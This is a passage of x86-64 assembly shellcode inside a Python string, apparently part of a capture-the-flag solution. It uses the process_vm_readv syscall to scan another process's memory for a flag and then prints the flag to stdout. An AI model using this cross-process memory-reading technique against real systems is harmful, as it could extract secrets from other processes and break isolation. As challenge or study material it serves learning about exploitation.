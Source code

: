 ```python
    mov [rax], rdx
    mov rcx, 0x100000000
    cmp rdx, rcx
    jb find_mapping
    jmp exit
check_flag:
    mov rax, 0x31337f00
    mov bl, [rax]
    cmp bl, 0x0
    jne print_flag
    ret
search_flag:
    call check_flag
    lea rax, [rip+curr_size]
    mov rdx, [rax]
    shr rdx, 1
    cmp rdx, 0x1000
    jb print_flag
    mov [rax], rdx
    lea rax, [rip+curr_page]
    mov rbx, [rax]
    sub rbx, rdx
    mov [rax], rbx
    lea rax, [rip+remote_iov]
    mov [rax], rbx
    call do_process_vm_readv
    cmp rax, -14
    je handle_mapping_failure
    jmp search_flag
handle_mapping_failure:
    lea rax, [rip+curr_page]
    mov rdx, [rax]
    lea rax, [rip+curr_size]
    mov rbx, [rax]
    add rdx, rbx
    lea rax, [rip+curr_page]
    mov [rax], rdx
    lea rax, [rip+remote_iov]
    mov [rax], rdx
    jmp search_flag
print_flag:
    mov rdi, 1
    mov rsi, 0x31337f00
    mov rdx, 0x100
    mov rax, 1
    syscall
exit:
    mov rax, 60
    xor edi, edi
    syscall
curr_size:
    .quad 0x100000
curr_page:
    .quad 0x100000
child_pid:
    .quad 0
local_iov:
    .quad 0x31337f00
    .quad 0x100
remote_iov:
    .quad 0
    .quad 0x100
    """
```